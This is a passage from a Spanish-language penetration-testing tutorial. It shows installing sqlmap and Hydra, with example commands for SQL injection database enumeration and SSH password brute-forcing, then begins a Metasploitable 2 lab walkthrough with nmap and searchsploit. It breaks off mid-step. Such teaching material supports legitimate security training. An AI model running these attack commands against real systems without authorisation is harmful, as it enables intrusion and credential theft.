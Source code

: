 #### ✅ sqlmap (para inyecciones SQL)

```bash
sudo apt install sqlmap -y
```

Ejecutar escaneo básico:

```bash
sqlmap -u "http://target.com/product?id=1" --dbs
```

---

#### ✅ Hydra (fuerza bruta)

```bash
sudo apt install hydra -y
```

Ejemplo: fuerza bruta contra SSH

```bash
hydra -l admin -P rockyou.txt ssh://192.168.1.10
```

---

### ✅ Ejemplo práctico completo: Explotación de una app vulnerable con Metasploit

---

#### 🧪 Escenario: Tienes un entorno de laboratorio con una máquina vulnerable (por ejemplo, **Metasploitable 2**) y una máquina atacante con **Kali Linux**.

---

#### Paso 1: Reconocimiento

Escaneas la máquina vulnerable con Nmap:

```bash
nmap -sV 192.168.1.100
```

Resultado: puerto 21 (FTP), 22 (SSH), 80 (HTTP), 139/445 (SMB)

---

#### Paso 2: Encontrar una vulnerabilidad

Buscas exploits para el servicio SMB (puerto 445):

```bash
searchsploit samba
```

Encuentras:
